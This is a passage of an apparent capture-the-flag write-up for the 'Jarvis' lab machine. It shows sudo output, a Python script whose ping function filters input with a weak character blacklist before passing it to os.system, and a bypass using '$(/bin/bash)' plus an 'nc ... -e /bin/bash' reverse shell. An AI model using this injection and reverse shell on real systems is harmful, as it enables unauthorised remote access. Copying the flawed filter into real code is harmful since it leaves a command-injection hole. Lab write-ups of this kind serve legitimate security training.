 - `sudo -l` -> -p for ping command usage -> **command injection**

```console
www-data@jarvis:/var/www/html/phpmyadmin$ sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py

www-data@jarvis:/var/www/html/phpmyadmin$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -h
sudo -u pepper /var/www/Admin-Utilities/simpler.py -h
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP -> guess ping $ip -c 3 -> command injection
```

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

- `ping $(/bin/bash)` + `nc <ip> <port> -e /bin/bash`
